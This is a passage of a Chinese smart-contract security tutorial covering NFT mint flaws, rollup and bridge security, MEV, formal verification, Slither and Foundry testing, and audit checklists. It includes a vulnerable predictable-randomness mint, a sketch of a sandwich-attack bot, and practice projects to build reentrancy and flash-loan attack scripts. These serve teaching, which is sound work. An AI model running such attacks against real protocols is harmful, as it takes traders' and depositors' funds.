            // 使用blockhash和时间戳是可预测的
            // 矿工/验证者可以操纵这些值
            uint256 tokenId = uint256(keccak256(abi.encodePacked(
                block.timestamp, blockhash(block.number - 1), totalSupply
            ))) % 10000;
            totalSupply++;
            _mint(msg.sender, tokenId);
        }
    }
}

// ======== 安全NFT实现 ========
contract SecureNFT is ERC721, ReentrancyGuard, EIP712 {
    uint256 public constant MAX_SUPPLY = 10000;
    uint256 public price = 0.08 ether;
    uint256 public maxPerWallet = 5;
    uint256 public totalSupply;

    address public oracleSigner;  // 随机数签名者（使用Chainlink VRF更佳）
    mapping(address => uint256) public mintedCount;
    mapping(bytes32 => bool) public usedNonces;

    // 安全的铸造函数
    function mint(
        uint256 quantity,
        bytes32 randomSeed,
        bytes memory signature
    ) public payable nonReentrant {
        // 检查1：供应上限
        require(totalSupply + quantity <= MAX_SUPPLY, "Max supply reached");
        // 检查2：支付金额
        require(msg.value >= price * quantity, "Insufficient payment");
        // 检查3：每钱包限制
        require(mintedCount[msg.sender] + quantity <= maxPerWallet, "Exceeds max per wallet");
        // 检查4：签名验证（防前端绕过）
        bytes32 messageHash = keccak256(abi.encodePacked(msg.sender, quantity, randomSeed));
        address signer = messageHash.toEthSignedMessageHash().recover(signature);
        require(signer == oracleSigner, "Invalid signature");
        // 检查5：防重放
        require(!usedNonces[randomSeed], "Seed already used");
        usedNonces[randomSeed] = true;

        // 安全的铸造
        for (uint256 i = 0; i < quantity; i++) {
            totalSupply++;
            _mint(msg.sender, totalSupply);
        }

        mintedCount[msg.sender] += quantity;
    }

    // 元数据修改受限于Ownable
    string private _baseURI;
    function setBaseURI(string memory baseURI) external onlyOwner {
        _baseURI = baseURI;
    }

    // 防范NFT元数据中心化风险：使用IPFS存储，URI设置后不可修改
    bool public uriLocked;
    function lockURI() external onlyOwner {
        uriLocked = true;
    }

    function supportsInterface(bytes4 interfaceId) public view override(ERC721) returns (bool) {
        return super.supportsInterface(interfaceId);
    }
}
```

**NFT安全检查清单：**

| 检查项 | 说明 | 严重程度 |
|--------|------|----------|
| 供应上限 | MAX_SUPPLY常量，不可修改 | 高 |
| 每钱包限制 | 防止单一地址垄断铸造 | 中 |
| 元数据安全 | 使用IPFS/Arweave，URI锁定后不可修改 | 高 |
| 随机数安全 | 使用Chainlink VRF或commit-reveal | 中 |
| 权限控制 | mint函数的参数验证需签名确认 | 高 |
| 重入保护 | nonReentrant修饰符 | 中 |
| Royalty标准 | 支持EIP-2981，确保创作者收益 | 低 |

## 四、Layer 2与扩容安全

### 4.1 Rollup安全模型

Layer 2扩容方案的安全性直接取决于其数据可用性和验证机制。

**Optimistic Rollup vs ZK Rollup安全对比：**

| 特性 | Optimistic Rollup | ZK Rollup |
|------|-------------------|-----------|
| 验证方式 | 欺诈证明（乐观假设有效） | 有效性证明（密码学证明） |
| 最终性延迟 | 7天挑战期 | 几分钟（证明生成后） |
| 数据可用性 | 交易数据上链 | 交易数据或状态差异上链 |
| 主要风险 | 挑战机制失败、排序器作恶 | 证明系统Bug、可信设置 |
| 代表项目 | Optimism, Arbitrum | zkSync, StarkNet, Polygon zkEVM |

### 4.2 排序器（Sequencer）安全

在大多数Layer 2中，排序器负责交易排序和批次提交。排序器的中心化是L2安全的主要隐患：

```solidity
// L2排序器作恶场景
// 1. 交易审查：排序器拒绝包含特定用户的交易
// 2. 前置交易（MEV）：排序器可以在用户交易前插入自己的交易
// 3. 数据扣留：排序器提交批次但不公布交易数据

// 防御措施
// 1. 强制包含机制（Force Inclusion）：用户可以直接在L1提交交易
// 2. 去中心化排序器：多个节点轮流出块
// 3. 数据可用性委员会（DAC）：独立验证数据发布
```

### 4.3 桥接安全

L2与L1之间的资产桥接是另一个高风险区域：

```solidity
// L2→L1提款的安全考量
contract L1Bridge {
    // Optimistic Rollup提款流程：
    // 1. 用户在L2发起提款交易
    // 2. 等待挑战期（7天）
    // 3. 挑战期内任何人都可以提交欺诈证明
    // 4. 挑战期结束后，用户在L1领取资金

    mapping(bytes32 => bool) public finalizedWithdrawals;
    uint256 public constant CHALLENGE_PERIOD = 7 days;

    function finalizeWithdrawal(
        bytes32 withdrawalHash,
        bytes calldata proof
    ) external {
        require(!finalizedWithdrawals[withdrawalHash], "Already finalized");

        // 验证提款在L2上确实发生
        require(verifyL2Message(withdrawalHash, proof), "Invalid proof");

        // 检查挑战期已过
        uint256 timestamp = getWithdrawalTimestamp(withdrawalHash);
        require(
            block.timestamp >= timestamp + CHALLENGE_PERIOD,
            "Challenge period not over"
        );

        finalizedWithdrawals[withdrawalHash] = true;
        // 执行提款
    }
}
```

## 五、MEV（最大可提取价值）博弈论

### 5.1 MEV攻击类型全景

MEV是指区块生产者通过交易排序、包含或排除所能提取的最大价值。2023年以太坊上的MEV总额超过6亿美元。

```solidity
// ======== 三明治攻击（Sandwich Attack）========
// 原理：在受害者的大额交易前后分别插入买入和卖出交易
contract SandwichBot {
    // 攻击流程：
    // 1. 监控mempool，发现受害者的大额swap交易
    // 2. 前置交易（frontrun）：在受害者交易前买入，推高价格
    // 3. 受害者交易以更高价格执行（滑点损失）
    // 4. 后置交易（backrun）：在受害者交易后卖出，获利

    function executeSandwich(
        address pair,
        address tokenIn,
        address tokenOut,
        uint256 victimAmountIn,
        uint256 frontrunAmount
    ) external {
        // 前置：买入tokenOut
        swap(pair, tokenIn, tokenOut, frontrunAmount);
        // 受害者的交易在此执行（被机器人监控确认）
        // 后置：卖出tokenOut获利
        uint256 balance = IERC20(tokenOut).balanceOf(address(this));
        swap(pair, tokenOut, tokenIn, balance);
    }
}

// ======== 套利（Arbitrage）========
contract ArbitrageBot {
    // 跨DEX套利：利用不同DEX之间的价格差异
    function arbitrage(
        address dexA,
        address dexB,
        address tokenIn,
        address tokenOut,
        uint256 amountIn
    ) external {
        // DEX A: 1 ETH = 1000 USDC
        uint256 received = swapOnDex(dexA, tokenIn, tokenOut, amountIn);
        // DEX B: 1 ETH = 1050 USDC（价格差异）
        // 在DEX B卖出tokenOut换回tokenIn
        uint256 finalAmount = swapOnDex(dexB, tokenOut, tokenIn, received);
        // 利润 = finalAmount - amountIn
        require(finalAmount > amountIn, "No profit");
    }
}

// ======== 清算（Liquidation）========
contract LiquidationBot {
    // 监控借贷协议中的不健康头寸
    function checkAndLiquidate(
        address lendingProtocol,
        address borrower,
        address collateral,
        address debt
    ) external {
        uint256 healthFactor = ILending(lendingProtocol).getHealthFactor(borrower);
        if (healthFactor < 1e18) {
            // 健康因子低于1，触发清算
            // 清算人偿还部分债务，获得抵押品折扣
            ILending(lendingProtocol).liquidate(borrower, collateral, debt);
        }
    }
}
```

### 5.2 MEV防御方案

| 方案 | 原理 | 工具/协议 |
|------|------|-----------|
| 私有交易池 | 交易不经过公共mempool | Flashbots Protect, MEV Blocker |
| 批量拍卖 | 同一区块的交易以同一价格执行 | CoW Protocol, MEV-Share |
| Flashbots MEV-Share | 用户与搜索者分享MEV收益 | Flashbots |
| 加密mempool | 交易在上链前加密 | Shutter Network, SUAVE |
| 公平排序协议 | 按接收时间排序而非Gas价格 | Chainlink FSS |

**Flashbots架构简介：**



## 六、形式化验证方法论

### 6.1 形式化验证概述

形式化验证使用数学方法证明智能合约的行为符合规约（specification），是最高级别的安全保障。与测试（只能覆盖有限路径）不同，形式化验证可以覆盖所有可能的执行路径。

**验证方法分类：**

| 方法 | 工具 | 优势 | 局限性 |
|------|------|------|--------|
| 模型检测 | Manticore, Mythril | 全自动 | 状态空间爆炸 |
| 符号执行 | Mythril, HEVM | 精确路径分析 | 路径爆炸 |
| 定理证明 | Certora, K Framework | 最强证明能力 | 需要人工编写规约 |
| 抽象解释 | Slither | 快速分析 | 精度有限 |

### 6.2 Certora形式化验证实战

```solidity
// 被验证的合约
contract Token {
    mapping(address => uint256) public balanceOf;
    uint256 public totalSupply;

    function transfer(address to, uint256 amount) public returns (bool) {
        require(balanceOf[msg.sender] >= amount);
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function mint(address to, uint256 amount) public {
        totalSupply += amount;
        balanceOf[to] += amount;
    }
}
```

```text
// Certora规约文件：token.spec

// 定义ghost变量追踪总余额
ghost mathint sumOfBalances {
    init_state axiom sumOfBalances == 0;
}

// 每次balanceOf变化时更新ghost
hook Sstore balanceOf[address addr] uint256 newVal (uint256 oldVal) {
    sumOfBalances = sumOfBalances + newVal - oldVal;
}

// 规则1：总供应量等于所有余额之和
invariant totalSupplyEqualsSumOfBalances()
    to_mathint(totalSupply) == sumOfBalances;

// 规则2：transfer不改变总供应量
rule transferDoesNotChangeTotalSupply(address to, uint256 amount) {
    uint256 totalBefore = totalSupply();
    transfer(to, amount);
    uint256 totalAfter = totalSupply();
    assert totalBefore == totalAfter, "Transfer changed total supply!";
}

// 规则3：转账后发送方余额减少
rule transferDecreasesSenderBalance(address to, uint256 amount) {
    uint256 balBefore = balanceOf[msg.sender];
    transfer(to, amount);
    uint256 balAfter = balanceOf[msg.sender];
    assert balBefore >= balAfter, "Sender balance increased!";
}

// 规则4：只有mint能增加总供应量
rule onlyMintIncreasesSupply(address to, uint256 amount) {
    uint256 totalBefore = totalSupply();
    // 执行任意函数调用
    env e;
    if (e.msg.sender != 0) {
        // 只有mint会增加totalSupply
        // transfer不会
    }
}
```

### 6.3 Slither静态分析实战

Slither是Trail of Bits开发的Solidity静态分析框架，内置90+检测器：

```bash
# 安装Slither
pip install slither-analyzer

# 基本扫描
slither contract.sol

# 指定检测器
slither contract.sol --detect reentrancy-eth,reentrancy-no-eth,reentrancy-events

# 过滤特定合约
slither contract.sol --filter-paths "node_modules|test"

# 生成JSON报告（用于CI/CD集成）
slither contract.sol --json report.json

# 人类可读摘要
slither contract.sol --print human-summary

# 继承关系图
slither contract.sol --print inheritance-graph

# 数据依赖分析
slither contract.sol --print data-dependency
```

**Slither常用检测器分类：**

| 类别 | 检测器 | 检测内容 |
|------|--------|----------|
| 高危 | `reentrancy-eth` | ETH重入 |
| 高危 | `reentrancy-no-eth` | 无ETH重入 |
| 高危 | `arbitrary-send-eth` | 任意地址发送ETH |
| 中危 | `timestamp-dependence` | 时间戳依赖 |
| 中危 | `tx-origin` | tx.origin使用 |
| 中危 | `unchecked-transfer` | 未检查transfer返回值 |
| 低危 | `constable-states` | 可改为常量的状态变量 |
| 低危 | `external-function` | 可改为external的public函数 |
| 信息 | `naming-convention` | 命名规范 |

### 6.4 Foundry模糊测试

```solidity
// Foundry测试文件：test/Token.t.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Token.sol";

contract TokenTest is Test {
    Token token;

    function setUp() public {
        token = new Token();
    }

    // 模糊测试：自动生成随机输入
    function testFuzz_Transfer(address from, address to, uint256 amount) public {
        // 限制输入范围
        amount = bound(amount, 0, 1e18);

        // 设置初始余额
        token.mint(from, amount + 1e18);

        uint256 totalBefore = token.totalSupply();

        vm.prank(from);
        token.transfer(to, amount);

        // 断言：总供应量不变
        assertEq(token.totalSupply(), totalBefore);
        // 断言：接收方余额增加
        assertGe(token.balanceOf(to), amount);
    }

    // 不变量测试
    function invariant_totalSupplyConsistent() public {
        // 在任意数量的随机调用后，此断言始终成立
        uint256 total = token.totalSupply();
        assertGe(total, 0);
    }

    // Foundry fork测试：在主网分叉上测试
    function testFork_MainnetInteraction() public {
        vm.createSelectFork("mainnet", 17000000);  // 指定区块号
        // 在分叉的主网上测试合约行为
    }
}
```

## 七、安全审计工程实践

### 7.1 审计方法论

一个完整的智能合约安全审计通常包含以下阶段：


**审计清单模板：**

```text
=== 智能合约安全审计清单 ===

【基础检查】
□ 合约编译无警告
□ 使用最新稳定版Solidity（0.8.x）
□ OpenZeppelin版本已确认且无已知漏洞
□ 所有external/public函数的访问控制已验证

【权限检查】
□ owner/admin权限范围已明确
□ 敏感操作有多重签名或时间锁
□ 无tx.origin误用
□ 代理合约的initialize()已保护

【重入检查】
□ 所有外部调用后无状态更新（CEI模式）
□ 或已使用ReentrancyGuard
□ 跨函数重入风险已评估
□ ERC-777等带回调的代币已考虑

【算术检查】
□ 使用Solidity 0.8.x或SafeMath
□ 除法精度问题已处理
□ 无unchecked块中的溢出风险

【代币安全】
□ ERC-20的approve/transferFrom存在前端攻击风险
□ 不合规的ERC-20代币（不返回bool）已处理
□ Fee-on-transfer代币已考虑

【经济模型】
□ 闪电贷攻击面已评估
□ 预言机操纵风险已评估
□ 清算机制已验证
□ 治理攻击风险已评估

【Gas优化】
□ 循环中无未bounded的gas消耗
□ 存储变量优化（pack struct）
□ 不必要的SSTORE已消除

【外部依赖】
□ Oracle价格源可信度已验证
□ 外部合约调用的返回值已检查
□ 升级代理的存储布局兼容性已验证
```

### 7.2 常见审计发现严重程度定义

| 严重程度 | 定义 | 示例 |
|----------|------|------|
| Critical（严重） | 直接导致资金损失或合约完全失控 | 重入攻击、权限绕过 |
| High（高危） | 在特定条件下导致资金损失 | 整数溢出、价格操纵 |
| Medium（中等） | 影响合约功能或可能导致部分损失 | 未检查返回值、时间戳依赖 |
| Low（低危） | 不影响安全性但违反最佳实践 | 缺少事件、命名不规范 |
| Informational（信息） | 代码质量改进建议 | Gas优化、代码可读性 |

### 7.3 著名审计公司与Bug Bounty平台

**审计公司：**

| 公司 | 专长 | 知名审计项目 |
|------|------|-------------|
| Trail of Bits | 形式化验证、底层安全 | MakerDAO, Uniswap |
| OpenZeppelin | Solidity安全、升级模式 | Compound, Aave |
| Consensys Diligence | 以太坊生态全面审计 | 以太坊基金会 |
| CertiK | AI辅助审计 | PancakeSwap, Shiba Inu |
| PeckShield | DeFi安全、MEV研究 | PancakeBunny, Cream Finance |
| Spearbit | 专注ZK和L2安全 | zkSync, StarkNet |
| Cantina | 安全竞赛平台 | 多个Uniswap V3池 |

**Bug Bounty平台：**

| 平台 | 最高奖金 | 特点 |
|------|----------|------|
| Immunefi | 数千万美元 | 最大的Web3 bug bounty平台 |
| Code4rena | 竞赛制奖金 | 安全审计竞赛，多人独立审计 |
| Sherlock | 数百万美元 | 审计竞赛+保险模式 |
| Hats Finance | 可变 | 去中心化bug bounty协议 |

## 八、区块链安全学习资源

### 8.1 在线靶场（由易到难）

| 靶场 | 网址 | 适合人群 | 涵盖内容 |
|------|------|----------|----------|
| Ethernaut | ethernaut.openzeppelin.com | 入门 | 基础合约漏洞25+关卡 |
| Capture The Ether | capturetheether.com | 入门-中级 | 彩票、猜数字等经典漏洞 |
| Damn Vulnerable DeFi | damnvulnerabledefi.xyz | 中级-高级 | DeFi协议攻击15关 |
| Paradigm CTF | github.com/paradigmxyz | 高级 | 竞赛级CTF题目 |
| Curta CTF | curta.wtf | 高级 | 链上CTF，需Solidity+数学 |
| EVM Puzzles | github.com/fvictorio | 中级 | EVM字节码级理解 |

### 8.2 学习路线图



### 8.3 推荐安全工具链

| 工具 | 用途 | 安装方式 |
|------|------|----------|
| Slither | 静态分析 | `pip install slither-analyzer` |
| Mythril | 符号执行 | `pip install mythril` |
| Echidna | 模糊测试 | `brew install echidna` / Docker |
| Foundry | 测试框架 | `curl -L foundry.paradigm.xyz \| bash` |
| Hardhat | 开发框架 | `npm install hardhat` |
| Manticore | 符号执行 | `pip install manticore` |
| Certora | 形式化验证 | `pip install certora-cli` |
| Tenderly | 交易模拟/调试 | Web平台 + CLI |
| BlockSec | 自动化安全监控 | Web平台 |

### 8.4 推荐学习资源

- **书籍**：《Solidity编程》（by Ethereum官方）、《Mastering Ethereum》（by Andreas Antonopoulos）
- **博客**：Trail of Bits Blog、OpenZeppelin Blog、Paradigm Research
- **安全数据库**：Rekt News（rekt.news）、DeFi Llama Hacks Database
- **会议**：DeFi Security Summit、DEF CON Blockchain Village、ETHSecurity
- **Twitter/X**：@samczsun、@tayvano_、@moo9000、@pcaversaccio

## 九、思考题与实践项目

### 9.1 概念思考题

1. **重入攻击的本质**：为什么Checks-Effects-Interactions模式能从根本上防御重入攻击？它与重入锁的防御思路有什么本质区别？在什么场景下CEI模式无法直接应用？

2. **闪电贷悖论**：闪电贷被设计为"在同一交易中借还"，这意味着它不产生信用风险。但它为何成为攻击工具？从博弈论角度分析，闪电贷降低了攻击的门槛还是增加了攻击的成本？

3. **预言机的根本问题**：区块链是封闭系统，预言机是它与外界连接的唯一通道。这种"黑天鹅"式的信任瓶颈能否被完全解决？从信息论的角度分析预言机安全的根本限制。

4. **MEV的伦理困境**：MEV是"矿工/验证者的最大可提取价值"。套利型MEV（如跨DEX套利）被认为是有益的，但三明治攻击是有害的。如何定义"好的MEV"和"坏的MEV"？Flashbots的方案是否真正解决了这个问题？

5. **跨链桥的不可能三角**：安全性、去中心化和效率，跨链桥能否三者兼得？分析为什么跨链桥是区块链安全的重灾区。

### 9.2 实战项目

**项目1：构建完整的重入攻击PoC**

```text
目标：在本地Hardhat/Foundry环境中复现重入攻击
步骤：
1. 部署漏洞合约和攻击合约
2. 执行攻击并验证资金损失
3. 实现三种防御方案
4. 用Slither验证防御后无漏洞
5. 用Foundry模糊测试验证安全性
交付物：可运行的测试套件 + 攻防对比报告
```

**项目2：DeFi闪电贷攻击模拟**

```text
目标：在Fork主网上模拟闪电贷攻击
步骤：
1. Fork主网（使用Foundry的--fork-url）
2. 部署攻击合约
3. 模拟PancakeBunny类型的预言机操纵攻击
4. 计算攻击成本和利润
5. 实现并测试防御方案（TWAP预言机）
交付物：完整攻击脚本 + 防御合约 + 分析报告
```

**项目3：自动化安全审计Pipeline**

```text
目标：构建CI/CD集成的智能合约安全检查流程
步骤：
1. 配置Slither + Mythril + Echidna自动化扫描
2. 编写Foundry测试（模糊测试 + 不变量测试）
3. 集成到GitHub Actions
4. 定义严重程度阈值（Critical/High阻断CI）
5. 生成可视化安全报告
交付物：GitHub仓库 + CI配置 + 示例报告
```

**项目4：MEV防护DApp**

```text
目标：构建一个受Flashbots保护的代币交换前端
步骤：
1. 使用Flashbots Protect API发送私有交易
2. 实现交易预估（模拟执行检查滑点）
3. 实现批量拍卖（CoW Swap集成）
4. 对比公共mempool和私有mempool的MEV提取差异
交付物：DApp前端 + MEV分析仪表板
```

## 十、总结：区块链安全核心原则

1. **假设一切外部输入都不可信**：用户输入、预言机数据、跨链消息、其他合约返回值，都需要验证
2. **最小权限原则**：合约的每个角色只拥有完成其功能所需的最小权限
3. **防御性编程**：永远假设攻击者比你更了解你的代码
4. **代码即法律**：链上代码一旦部署就不可修改（除非有升级代理），错误的代价是永久性的
5. **多层防御**：不依赖单一安全措施，静态分析+模糊测试+形式化验证+人工审计叠加使用
6. **经济安全**：不仅考虑代码安全，还要考虑经济模型安全——攻击者的收益必须小于成本
7. **持续监控**：部署后使用Tenderly、Forta等工具持续监控异常交易

---

> **本章寄语**：区块链安全是密码学、分布式系统、博弈论和软件工程的交叉领域。每一起安全事故的背后，都是对某个基本安全原则的忽视。The DAO教会我们重入攻击，BEC教会我们整数溢出，Ronin教会我们密钥管理，PancakeBunny教会我们预言机安全。在这个"代码即法律"的世界里，安全不是附加功能，而是核心竞争力。保持对新攻击手法的好奇心，在靶场中磨练技能，在实战中积累经验——这是成为区块链安全专家的唯一路径。
